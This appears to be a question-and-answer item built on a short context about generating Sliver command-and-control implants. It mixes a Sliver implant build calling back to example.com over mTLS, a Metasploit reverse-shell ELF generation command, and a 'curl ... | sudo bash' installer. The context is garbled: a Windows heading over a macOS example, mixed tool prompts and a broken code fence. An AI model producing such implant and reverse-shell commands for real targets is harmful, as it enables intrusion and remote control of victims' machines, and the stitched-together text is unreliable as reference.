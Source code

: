 Context:# Payload Generation on Sliver for Windows

Here are some  commands for generating payloads on Sliver, specifically targeting Windows.
For a Linux server, you can also use the one liner installation `curl https://sliver.sh/install|sudo bash`
```
sliver > generate --mtls example.com --save /Users/moloch/Desktop --os mac

[*] Generating new darwin/amd64 Sliver binary
[*] Build completed in 00:00:09
[*] Sliver binary saved to: /Users/moloch/Desktop/PROPER_ANTHONY
# Generate an ELF file for execution on Linux environments
msf6 payload(linux/x86/shell_reverse_tcp) > generate -f elf -o linux_shell
`

 Question: Generate a Sliver command to create a  payload in ELF format for a Linux target. Respond only with the Sliver command, without any additional text or explanation. 

 Your response: 
```
sliver > generate --mtls example.com --save /Users/moloch/Desktop --os linux
```